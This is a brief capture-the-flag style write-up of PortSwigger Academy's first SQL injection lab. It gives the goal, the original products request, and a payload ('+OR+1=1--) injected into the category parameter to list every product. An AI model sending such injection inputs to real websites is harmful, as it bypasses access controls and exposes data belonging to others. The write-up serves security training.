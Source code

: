 ```yaml
---
title: PortSwigger Academy - SQLi - Lab 1 - SQLi in WHERE clause
date: 2023-03-02
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Apprentice`

## 🎯 Goal 

Show all the products no matter the category.

## ✅ Solution

Initial request:

````url
<website>/products?category=Gifts
````

With payload:

````url
<website>/products?category='+OR+1=1--
````

